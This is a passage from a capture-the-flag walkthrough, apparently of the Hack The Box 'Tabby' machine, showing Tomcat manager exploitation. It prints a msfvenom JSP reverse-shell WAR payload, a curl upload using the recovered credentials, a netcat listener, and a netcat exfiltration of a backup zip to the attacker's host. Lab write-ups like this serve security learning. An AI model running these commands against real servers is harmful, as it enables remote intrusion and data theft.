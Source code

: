Success, we receive the file in our response.

Additionally, we also see the roles that the tomcat user has. The manager-script role allows us to remotely deploy web archive (WAR) files to the webserver, with our new found credentials.

First, we need to create a malicious WAR file. To do this, we'll use `msfvenom`.

```bash
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.121 LPORT=4444 -f war > evil.war
```

Next, we'll use curl to upload our file, utilizing the credentials we found.

```bash
$ curl  --upload-file evil.war http://tomcat:\$3cureP4s5w0rd123\!@10.10.10.194:8080/manager/text/deploy?path=/evil
```

Let's start our listener in preparation for a reverse shell.

```bash
$ nc -lvnp 4444
```

Finally, navigating to `http://10.10.10.194:8080/evil/` triggers our payload, and we receive a reverse shell. We'll also make our shell a little more interactive.

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
```

Let's look around where we landed. Enumerating a bit leads us to the `/var/www/html/files` directory. Here, we find a zipped backup named `16162020_backup.zip`. Let's use `netcat` to download this to our machine and give it a look.

On our machine, we'll listen for a callback with the file.

```bash
$ nc -lp 5555 > backup.zip
```

On the _Tabby_ box let's run the following command to send it.

```bash
$ nc -w 3 10.10.14.121 5555 < 16162020_backup.zip
```

Attempting to open the zip prompts for a password. We can extract password hashes with zip2john or one of the various online extractors. I had problmes with zip2john, so I went with an [online tool](https://www.onlinehashcrack.com/tools-zip-rar-7z-archive-hash-extractor.php).

![](/assets/img/posts/htb/07-2020/zip-hash.png)
